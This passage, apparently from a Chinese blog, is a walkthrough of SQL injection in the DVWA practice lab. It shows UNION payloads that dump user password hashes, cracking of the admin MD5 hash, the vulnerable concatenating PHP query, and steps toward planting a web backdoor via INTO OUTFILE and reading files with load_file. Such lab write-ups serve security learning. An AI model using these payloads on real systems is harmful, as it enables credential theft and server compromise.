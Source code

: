 ```sql
1' union select user, password from users ; #
```

<img src="https://www.crabglory.club/img/post/network security/images/dvwa_lib/sql_inject_low_dvwa_table_users.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="260px"/>

可以很清楚的知道有：admin、gordonb、1337、pablo、smithy这些人注册了网站以及对应的密码。

然后是**破解密码了**，百度查了一下，发现一个工具 [Cain](https://sourceforge.net/projects/hashidentifier/) 和 [密码破解之Cain破解MYSQL密码](https://blog.csdn.net/Aaron_Miller/article/details/80493440)  

但按照操作报错说hash密码长度不对，猜想会不会不是这种加密方式，百度查了一下数据库密码破解，在论坛中发现有人说类似于这个密码的字符串是md5加密，利用[在线MD5解密](https://www.cmd5.com/)，解密

```
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```

发现成功解出密码：password。

**看一下low的源码**

```php
// Get input
$id = $_REQUEST[ 'id' ];

// Check database
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );
```

可以很明显的发现，其实就是简单的拼接



**思考如何判断数据的加密方式？**

- 肉眼：MD5是有32位数字，其他的就直接用用具吧，可以变化。
- 工具：[Hash Identifier](https://sourceforge.net/projects/hashidentifier/) 



#### root获取

可以获取的最大权限就是对数据库的控制，进而控制服务器获取root权限，可以有怎样的思路进行攻击。

要控制服务器，还是要上传后门，在可以进行sql语句的注入点，执行sql语句将需要植入的后门写入web目录中

遇到的问题是：**如何获取操作系统信息，来进行相应的写入操作？**

那么首先通过注入来了解数据库的版本和操作系统的类型

```sql
' union select version(),@@version_compile_os; #
```

注意这两个：version() 获取mysql 版本信息，@@version_compile_os 操作系统信息。

针对于不同的操作系统进行可以使用一下语句写入

```sql
-- 写入文件
' union select '内容' into outfile 'ower_path';#
-- 读取文件
' union select load_file('owner_path');#
```
